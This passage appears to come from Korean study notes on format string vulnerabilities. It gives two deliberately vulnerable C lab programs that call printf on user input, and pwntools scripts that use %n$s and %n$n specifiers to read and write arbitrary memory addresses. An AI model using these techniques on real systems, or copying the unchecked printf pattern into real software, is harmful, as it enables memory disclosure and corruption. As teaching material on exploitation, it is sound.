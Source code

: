 
- 그 외 임의 주소
`%[n]$s` 의 형식으로 그 주소의 데이터를 재 참조해 읽을 수 있음
```c
// Name: fsb_aar.c
// Compile: gcc -o fsb_aar fsb_aar.c
#include <stdio.h>
const char *secret = "THIS IS SECRET";
int main() {
  char format[0x100];
  printf("Address of `secret`: %p\n", secret);
  printf("Format: ");
  scanf("%[^\n]", format);
  printf(format);
  return 0;
}
```

---

```python
from pwn import *
p = process("./fsb_aar")
p.recvuntil("`secret`: ")
addr_secret = int(p.recvline()[:-1], 16)
fstring = b"%7$s".ljust(8)
fstring += p64(addr_secret)
p.sendline(fstring)
```

---
# 쓰기
포맷 스트링에 임의의 주소를 넣고, `%[n]$n`의 형식 지정자를 사용하면 그 주소에 데이터를 쓸 수 있음
```c
// Name: fsb_aaw.c
// Compile: gcc -o fsb_aaw fsb_aaw.c
#include <stdio.h>
int secret;
int main() {
  char format[0x100];
  printf("Address of `secret`: %p\n", &secret);
  printf("Format: ");
  scanf("%[^\n]", format);
  printf(format);
  printf("Secret: %d", secret);
  return 0;
}
```

---

```python
#!/usr/bin/python3
# Name: fsb_aaw.py
from pwn import *
p = process("./fsb_aaw")
p.recvuntil("`secret`: ")
addr_secret = int(p.recvline()[:-1], 16)
fstring = b"%31337c%8$n".ljust(16)
fstring += p64(addr_secret)
p.sendline(fstring)
print(p.recvall())
```
